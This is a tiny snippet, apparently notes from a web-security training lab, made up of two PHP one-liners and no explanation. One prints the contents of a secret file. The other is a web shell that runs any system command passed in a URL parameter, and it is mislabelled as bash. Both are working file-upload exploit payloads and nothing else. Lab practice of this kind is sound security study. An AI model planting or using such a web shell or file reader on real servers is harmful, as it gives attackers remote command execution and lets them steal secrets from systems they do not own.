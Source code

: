 ___

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```


```bash
<?php echo system($_GET['command']); ?>
```


